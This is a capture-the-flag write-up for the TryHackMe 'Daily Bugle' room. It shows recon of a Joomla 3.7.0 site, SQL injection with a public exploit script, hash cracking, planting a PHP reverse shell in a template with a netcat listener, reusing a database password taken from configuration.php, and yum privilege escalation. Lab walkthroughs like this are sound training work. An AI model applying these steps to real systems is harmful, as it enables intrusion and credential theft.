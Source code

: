 <div align="center">

# Daily Bugle Writeup



<img src="../img/db.png" alt="TryHackMe Logo" width="150">

---

| Machine Name | Room URL | Difficulty |
| :--: | :--: | :--: |
| <b>Daily Bugle</b> | <a href="https://tryhackme.com/room/dailybugle">https://tryhackme.com/room/dailybugle</a> | <img src="../img/red.png" alt="Logo 1" width="30">

<img src="https://tryhackme-badges.s3.amazonaws.com/670.png" alt="TryHackMe">

---
</div>

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.


# [Task 1] Deploy

## #1.1 - Access the web server, who robbed the bank?
 
Nmap reveals 3 open ports on the server:

```
nmap -sV -sC 10.10.172.82 -Pn
```
!["1.png"](files/1.png)

Based on the fact that port 80 (HTTP) is active, indicating the presence of a functioning web server, when we access the URL ```http://10.10.172.82``` we are presented with an article claiming that SpiderMan is involved in a bank robbery.

!["2.png"](files/2.png)

Answer: `spiderman`

# [Task 2] Obtain user and root

Hack into the machine and obtain the root user's credentials.

## #2.1 - What is the Joomla version?

*Hint: I wonder if this version of Joomla is vulnerable...*

To determine the Joomla version we can use **JoomScan**:

`joomscan -u http://10.10.172.82`

!["3.png"](files/3.png)

According to Joomscan, Joomla version is 3.7.0.

Answer: `3.7.0`

## #2.2 - What is Jonah's cracked password? (Instead of using SQLMap, why not use a python script!)

*Hint: SQLi & JohnTheRipper*

For the Joomla version 3.7.0 I decided to use [Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah):

!["4.png"](files/4.png)


Now with the hash, let's crack it using John:

!["5.png"](files/5.png)

We now have Jonah's password.

## #2.3 - What is the user flag?

`The machine crashed new ip is 10.10.135.143`

Now we go to the `administrator` directory and login with `jonah:********`.

!["6.png"](files/6.png)

Once logged in, visit `Extensions > Templates > Templates` and select `Beez3`:

!["7.png"](files/7.png)

Edit `index.php` and replace the content with a PHP reverse shell, I'm using [Php-reverse-shell.php from pentest money](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php ), set a listener `nc -nlvp 1234`, then click on `Save`, and `Template Preview`, you have your reverse shell.

!["8.png"](files/8.png)


First thing on the server was to list the homes, find users (`jjameson` is the only user in `/home`), and try to find `user.txt` (common name for user flag). No luck.

Then, I inspected the `/var/www/html/` directory and extracted the following information from the `configuration.php` file, which reveals the password for the database.

~~~
sh-4.2$ cat configuration.php
cat configuration.php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
[REDACTED]
~~~

And by chance, this password is also the one from the jjameson's user!

~~~
sh-4.2$ su jjameson
su jjameson
Password: nv5uz9r3ZEDzVjNu

$ whoami
jjameson
$ cd
$ ls
user.txt
$ cat user.txt
**************************
~~~

User flag: `**************************`

## #2.4 - What is the root flag?

*Hint: https://gtfobins.github.io/*


Now, let's connect directly to SSH with su `jjameson:nv5uz9r3ZEDzVjNu`. First thing will be to check our privileges:

!["9.png"](files/9.png)

Let's check the OS:

~~~
[jjameson@dailybugle ~]$ cat /etc/redhat-release 
CentOS Linux release 7.7.1908 (Core)
~~~

The server is running on CentOS. Having a look a GTFOBins confirms several privesc with yum. Let's try.

!["10.png"](files/10.png)

Root flag: `**************`


